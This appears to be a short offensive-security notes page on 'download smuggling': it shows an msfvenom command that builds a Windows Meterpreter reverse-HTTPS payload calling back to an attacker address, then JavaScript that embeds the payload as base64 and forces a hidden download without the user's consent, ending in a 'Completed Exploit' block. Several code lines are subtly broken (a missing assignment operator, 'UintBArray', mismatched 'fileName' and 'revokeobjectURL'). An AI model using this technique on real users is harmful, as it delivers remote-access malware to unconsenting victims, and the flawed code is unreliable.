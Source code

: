 # Download Smuggling with Javascript
Store a malicious file in memory and force a download without user consent. 

## 1. Meterpreter Executable
Create a base64 executable and store it as a blob inside a js variable.
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

base64 /var/www/html/msfstaged.exe
```
Note: Make sure there are no line breaks or spaces!

```
<script>
var file = <BASE64String>
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var filename = 'msfstaged.exe';
</script>
```

## 2. Create hidden link
Create a download link for our payload and append it to the page.
```js
var a document.createElement('a');
document.body.appendChild(a);
a.style = 'display:none';
var url = window.URL.createObjectURL(blob);
a.href = url;
```

## 3. Force a click
```js
a.download = filename;
a.click();
window.URL.revokeObjectURL(url);
```

## 3. Base64 Encoding
We'll need to encode (prevent invalid chars) and decode our payload in order to perform this attack.
```sh
function base64ToArrayBuffer(base64) 
{
    var binary_string = window.atob(base64);
    var len = binary_string.length;
    var bytes = new UintBArray(len);
    for (var i = 0; i < len; i++) {
        bytes[i] = binary_string.charCodeAt(i);
    }
    return bytes.buffer;
}
```

## 4. Completed Exploit
```js
function base64ToArrayBuffer(base64) 
{
    var binary_string = window.atob(base64);
    var len = binary_string.length;
    var bytes = new UintBArray(len);
    for (var i = 0; i < len; i++) {
        bytes[i] = binary_string.charCodeAt(i);
    }
    return bytes.buffer;
}

var file = <BASE64String>
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var filename = 'msfstaged.exe'

var a document.createElement('a');
document.body.appendChild(a);
a.style = 'display:none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeobjectURL(url);
```
